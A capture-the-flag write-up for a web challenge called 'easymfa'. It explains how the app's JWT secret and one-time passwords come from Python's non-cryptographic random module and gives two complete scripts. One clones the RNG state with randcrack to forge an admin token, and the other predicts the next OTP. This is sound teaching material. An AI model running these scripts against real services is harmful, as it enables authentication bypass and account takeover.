 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Initial thoughts", "initial-thoughts")}}

{{text("This challange gives us a source code of a web application.")}}

{{text("It contains a password generation endpoint and a flag endpoint which will return the flag if our current user is admin and a one-time password is correct.")}}

{{text("In order to become admin, we probably need to generate a valid JWT token in which we set our user to admin. For us to do that we need the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>JWT_SECRET_KEY</code>.")}}

{{text("It got generated using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>get_random_string</code> function which will generate a byte string of size length.")}}

{{text("If we try to use this function ourselves, we can see what it returns. In my case it was <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>b'B\\xa1\\xe4\\t\\x1cd\\x02o\\xf4\\xdbA\\)\\xbc\\xe1\\x92\\x97\\xe9\\xfc!\\x97\\xce\\x97f+\\xa3[\\xa9\\x07r\\xbb_*'</code>.")}}

{{text("We need to figure out a way to guess what the application uses as the secret key, but how?")}}

{{text("Going forward, the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>random_passwords</code> variable gets set using the same <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>get_random_string</code> function which creates <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>384</code> strings.")}}

{{text("After that, the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/generate</code> endpoint. It checks if JWT token is present, if not, it assumes index = 0. If it is present,  it gets current index + 1. Then it creates a new JWT token which holds the value of the new password index.")}}

{{text("To put it simply, it iterates over 384 random passwords in a controlled way.")}}

{{header("Getting the secret key", "getting-the-secret-key")}}

{{text("Because of how many passwords there are, it will allow us to get the JWT secret key by using this tool.")}}

{{link("https://github.com/tna0y/Python-random-module-cracker", "./../static/writeups/images/github.jpg",  "randcrack - Python random module cracker")}}

{{text("This tool will allow us to, after seeing 624 32-bit outputs, clone the internal state of <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>random</code> module which is used by <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>get_random_string</code> and predict which value will come next.")}}

{{text("What we need to do is get 312 passwords from the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/generate</code> endpoint, turn them into 624 32-bit ints which will be used to reconstruct the RNG state using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>randcrack</code>. After that we will generate our own token where <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>current_user = admin</code> and pass the first <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>if</code> statement from the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/flag</code> endpoint.")}}

{{text("Below is a working script that will generate a valid admin token for us.")}}

{{console("import base64
import requests
import struct
import jwt 
from randcrack import RandCrack

HOST = \"https://easymfa.ecsc25.hack.cert.pl\"
PASSWORD_COUNT = 384

def chunk(data: bytes, size: int):
    for i in range(0, len(data), size):
        yield data[i:i + size]

def collect_passwords():
    passwords = []
    headers = {}
    token = None
    for _ in range(PASSWORD_COUNT):
        r = requests.get(f\"{HOST}/generate\", headers=headers)
        r.raise_for_status()
        data = r.json()
        passwords.append(data['password'])
        token = data['token']
        headers = {'Authorization': f'Bearer {token}'}
    return passwords

def reconstruct_rng(passwords):
    rc = RandCrack()
    ints = []

    for b64 in passwords:
        raw = base64.b64decode(b64)
        parts = list(chunk(raw, 4))
        for part in parts[::-1]:
            ints.append(int.from_bytes(part, 'big'))
        if len(ints) >= 624:
            break

    for i in ints[:624]:
        rc.submit(i)

    rc.offset(-len(ints))
    rc.offset(-8)
    return rc

def recover_jwt_secret(rc):
    secret_int = rc.predict_getrandbits(256)
    return secret_int.to_bytes(32, 'big')

def forge_admin_token(secret_key: bytes):
    payload = {
        'sub': 'admin',
        'identity': 'admin',
        'type': 'access',
        'fresh': False,
        'jti': '0',
        'iat': 0,
        'nbf': 0,
        'exp': 9999999999,
        'current': 0
    }
    token = jwt.encode(payload, secret_key, algorithm='HS256')
    return token

if __name__ == '__main__':
    print(\"Collecting passwords...\")
    passwords = collect_passwords()

    print(\"Reconstructing RNG\")
    rc = reconstruct_rng(passwords)

    print(\"Predicting JWT secret key...\")
    jwt_secret = recover_jwt_secret(rc)
    print('Recovered JWT_SECRET_KEY:', jwt_secret)

    print(\"Forging admin token...\")
    admin_token = forge_admin_token(jwt_secret)
    print(\"Admin token:\", admin_token)")}}

{{text("Notice the use of <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.offset()</code>. If we didn't use it, the script would predict the next value that comes after generating  all the passwords and the JWT secret. Because of that we need to go backwards, all the way to the start since the key is generated before the passwords in the application. We simply go before the JWT secret and the passwords were generated and predict the next 256 bits, which is the length of our secret key.")}}

{{text("We can test our key by sending a request to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/flag</code> endpoint.")}}

{{image("../../static/writeups/easymfa/images/000001.jpg")}}

{{text("We get the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Nope, it was OTP</code>, so the script correctly verifies our token in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>get_jwt_identity()</code> function.")}}

{{header("Predicting the OTP", "predicting-the-otp")}}

{{text("Next step is getting the OTP that will be generated by the application.")}}

{{text("Since the application returns to us a valid OTP, we can just send 312 requests with the wrong OTP, reconstruct the RNG state just like the last time and predict the next password value.")}}

{{text("I created another script that will do just that.")}}

{{console("import base64
import requests
import struct
from randcrack import RandCrack

HOST = \"https://easymfa.ecsc25.hack.cert.pl\"
JWT_TOKEN = \"VALID_TOKEN\"
OTP_REQUEST_COUNT = 312

def chunk(data: bytes, size: int):
    for i in range(0, len(data), size):
        yield data[i:i + size]

def collect_otps(jwt_token):
    headers = {'Authorization': f'Bearer {jwt_token}'}
    otps = []

    for _ in range(OTP_REQUEST_COUNT):
        resp = requests.post(f\"{HOST}/flag\", headers=headers, json={'OTP': 'AAAAAAAAAAA='})
        if resp.status_code == 403:
            error_message = resp.text
            if \"it was\" in error_message:
                otp_b64 = error_message.split(\"it was \")[1].split('\"')[0].strip()
                otps.append(otp_b64)
            else:
                print(\"Unexpected 403 response format.\")
        else:
            print(f\"Unexpected status code: {resp.status_code}\")
            print(resp.text)

    return otps


def reconstruct_rng_from_otps(otps):
    rc = RandCrack()
    ints = []

    for otp_b64 in otps:
        raw = base64.b64decode(otp_b64)
        parts = list(chunk(raw, 4))
        for part in parts[::-1]:
            ints.append(int.from_bytes(part, 'big'))

    for i in ints[:624]:
        rc.submit(i)

    return rc

def predict_next_otp(rc):
    otp_int = rc.predict_getrandbits(64)
    otp_bytes = otp_int.to_bytes(8, 'big')
    return base64.b64encode(otp_bytes).decode()

def get_flag(predicted_otp, jwt_token):
    headers = {'Authorization': f'Bearer {jwt_token}'}
    resp = requests.post(f\"{HOST}/flag\", headers=headers, json={'OTP': predicted_otp})
    if resp.status_code == 200:
        return resp.json()
    else:
        return {
            \"error\": \"Failed to retrieve flag\",
            \"status_code\": resp.status_code,
            \"response_text\": resp.text
        }

if __name__ == '__main__':
    print(\"Collecting OTPs\")
    otp_list = collect_otps(JWT_TOKEN)

    print(\"Reconstructing RNG state\")
    rc = reconstruct_rng_from_otps(otp_list)

    print(\"Predicting next OTP\")
    predicted_otp = predict_next_otp(rc)
    print(f\"Predicted OTP: {predicted_otp}\")

    print(\"Submitting OTP to get flag\")
    flag = get_flag(predicted_otp, JWT_TOKEN)
    print(\"FLAG:\", flag)")}}

{{text("Remember to enter your own JWT token and run the script.")}}

{{image("../../static/writeups/easymfa/images/000002.jpg")}}

{{script()}}